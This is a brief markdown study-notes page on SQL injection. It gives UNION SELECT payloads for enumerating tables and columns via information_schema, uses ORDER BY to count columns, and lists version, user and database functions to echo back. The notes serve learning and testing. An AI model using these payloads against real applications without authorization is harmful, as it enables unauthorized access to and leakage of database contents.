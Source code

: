 ```yaml
---
layout: post
title: SQL Injection
---
```


## Basics Not Mentioned In Essentials
### Union
`SELECT * FROM [table] WHERE [CONDITION] UNION SELECT 1,2,3,4,5,6`\
This creates a new element where the values are *1,2,3,4,5,6*. If there is information echoed back, might be a good idea to insert the below code.

Given the second element is the one that is echoed back, the following command could be used to get more info.\
`UNION SELECT 1,table_name,3,4 FROM information_schema.tables`\
`UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

You can get the columns of specific tables from with the following.\
`UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE TABLE_NAME = '[table name]'`


In normal circumstancecs the following could be used.\
`SELECT table_name FROM information_schema.tables`\
`SELECT column_name FROM information_schema.columns`

**As a side note**, `ORDER BY [NUMBER]` can be used to get the number of columns.

### Information to echo back:\
`@@version`, `user()`, `database()`
